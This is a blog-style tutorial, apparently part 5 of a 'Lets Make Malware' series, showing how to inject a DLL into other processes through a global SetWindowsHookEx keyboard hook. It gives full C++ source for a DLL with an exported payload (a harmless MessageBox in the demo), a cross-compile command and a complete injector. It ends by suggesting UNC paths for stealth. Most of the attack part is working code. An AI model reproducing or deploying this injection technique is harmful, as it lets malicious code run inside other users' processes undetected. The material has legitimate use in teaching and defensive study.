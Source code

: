 ```yaml
---
layout: post
title: Lets Make Malware - Part 5
---
```


![Code](/assets/code.jpg)

# Preamble
This week, we will discuss another way of performing DLL injection. In our classic DLL injection example, we used 8 Windows API functions in our injector codebase. 

These were OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread, GetProcAddress, GetModuleHandle, LoadLibrary, and WaitForSingleObject.

This time we will use just 4 API functions. 

The first thing we need is, of course, a DLL to use. For this, we will use the same codebase as last time with slight modifications. That code looked like this:

```cpp
#include "windows.h"
void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
			execute();
            		break;
        	case DLL_THREAD_ATTACH:
            		break;
        	case DLL_THREAD_DETACH:
            		break;
        	case DLL_PROCESS_DETACH:
            		break;
    		}    
    	return TRUE;  
}
``` 

# DLL Changes
The first thing we will change is removing our call to the “execute” function from the switch statement. It isn’t needed. 

Our second change will be to export our “execute” function. That means it will be able to be called from outside of our DLL. 

So, our code will now look like this:
```cpp
#include "windows.h"
extern "C" __declspec(dllexport) void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
            			break;
        		case DLL_THREAD_ATTACH:
            			break;
        		case DLL_THREAD_DETACH:
            			break;
        		case DLL_PROCESS_DETACH:
            			break;
    	}    
    	return TRUE;  
}
```

We can (cross) compile this the same way we did last time with the following command:

`x86_64-w64-mingw32-gcc –shared -o myEvilDLL.dll myEvilDLL.cpp`

# Injector
## LoadLibrary

Now, moving on to our injector code, our first API function is `LoadLibrary`. LoadLibrary does what it says on the tin can and we have already discussed its sole parameter, so we will not cover it again here.

## GetProcAddress

The next function we need is `GetProcAddress`. As we mentioned in the classic DLL injection post, this function locates the memory address of a function and returns it. We will use it in this case to find the address of our “execute” function within our malicious DLL. 

## SetWindowsHookEx
Next, we have the meat and potatoes of this whole operation: `SetWindowsHookEx`. 

As defined by MSDN, this function "_Installs an application-defined hook procedure into a hook chain. You would install a hook procedure to monitor the system for certain types of events. These events are associated either with a specific thread or with all threads in the same desktop as the calling thread._"

Put simply, this is the function that is doing our injection for us. When an event of our choosing occurs, such as a keypress, a function, also of our choosing, will run. 

SetWindowsHookEx is defined like so:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Its first parameter, idHook, is the event we want to listen for. There are a few different ones we can choose from, but for this example, we will use WH_KEYBOARD or 2. This one, of course, is waiting for key strokes. 

The seconds parameter, lpfn, is the function we want to run once our chosen event happens. This will be our execute function in our DLL.

Thirdly, hmod is the handle to the library (DLL) we get from our call to LoadLibrary.

Finally, dwThreadId, is the PID of the thread we want to listen for our specified event in. Microsoft was nice enough to provide us with a way of listening in all threads by supplying 0 here. 

## UnhookWindowsHookEx

Our last API function call will be UnhookWindowsHookEx, as we are good citizens we clean up after ourselves. But prior to that, we will make use of the sleep function so key presses have time to occur and set off our malicious DLL function. 

UnhookWindowsHookEx only has one parameter: the return value of SetWindowsHookEx, a handle to the hook itself.

# All Together

All together our injector code looks like so:
```cpp
int main() {
  HMODULE malDll = LoadLibrary("myEvilDLL.dll");
  HOOKPROC executeFunc = (HOOKPROC) GetProcAddress(malDll, "execute");

  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, executeFunc, malDll, 0);
  Sleep(10*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

After running this, all we have to do is press any key while our sleep function executes, and our malicious DLL will run! 

If we want to make things a bit more stealthy, we could try utilizing UNC paths for our LoadLibrary function call again and see what happens!

# Resources 

[MSDN: GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

[MSDN: SetWindowsHookEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)

[MSDN: LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[MSDN: Data Types](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types)

[WikiBooks: Data Types](https://en.wikibooks.org/wiki/Windows_Programming/Handles_and_Data_Types)
